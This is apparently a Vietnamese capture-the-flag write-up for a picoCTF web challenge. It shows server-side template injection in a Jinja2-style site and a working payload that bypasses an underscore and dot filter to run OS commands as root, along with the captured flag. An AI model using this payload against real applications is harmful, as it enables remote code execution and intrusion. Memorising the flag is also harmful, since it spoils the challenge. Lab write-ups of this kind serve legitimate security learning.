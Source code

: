 # Overview 
Category: [Web Exploitation]()

AUTHOR: Venax

# Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.

# Solution
- Do hint là "Server Side Template Injection" ta thử với payload đơn giản 
```
{{7*7}}
```

![](./image/2025-04-28_16-48.png)

- Kết quả trả về chứng tỏ bị SSTI 

- Đọc các file có hiện tại bằng payload như SSTI1 nhưng server đã filter nên payload không được thực thi (dự đoán là filter "_" và "." còn dấu nháy đơn , dấu nháy kép vẫn hoạt động bình thường với các payload)

![](./image/2025-04-28_16-52.png)

- Kết quả trả về "Stop trying to break me >:("
- Sau khi tìm cách bypass thì tìm được payload trên [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) :
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

- Payload trên đã encode "_" thành x5f và Sử dụng "|attr()"để truy cập các thuộc tính mà không cần dùng dấu "."
- Flow payload :
Truy cập từ request ➔ lấy application ➔ lấy __globals__ ➔ lấy __builtins__ ➔ dùng __import__('os') ➔ os.popen('id') ➔ .read()

- Payload được thực thi với người dùng root

![](./image/2025-04-28_17-09.png)

- Thực hiện đọc các file và lấy flag

![](./image/2025-04-28_17-14.png)
![](./image/2025-04-28_17-17.png)

>Flag : **picoCTF{sst1_f1lt3r_byp4ss_ece726e9}**